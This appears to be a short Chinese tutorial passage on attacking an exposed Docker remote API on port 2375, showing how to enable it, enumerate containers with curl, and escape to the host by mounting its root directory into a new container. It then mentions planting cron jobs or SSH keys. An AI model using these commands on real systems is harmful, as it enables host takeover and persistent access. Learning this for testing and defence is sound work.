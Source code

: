 环境搭建

将 docker 守护进程监听在 0.0.0.0

```php
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

![](assets/1703484795-6de2d9bcf2c20ec10720bb854d7e7a12.png)

能做什么？

列出容器信息

```php
curl http://<target>:2375/containers/json
```

查看容器

```php
docker -H tcp://<target>:2375 ps -a
```

如何逃逸？ 
这里介绍两种方法--其本质都是创建一个拥有特权并且挂载宿主机/目录的容器

1.新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt 目录下。

```php
docker -H tcp://127.0.0.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

接下来的操作就十分简单了，这里不多赘述，我们可以写计划任务，公私钥等等

![](assets/1703484795-b5b153308aed4f5e2e0b387c85cd39ce.png)
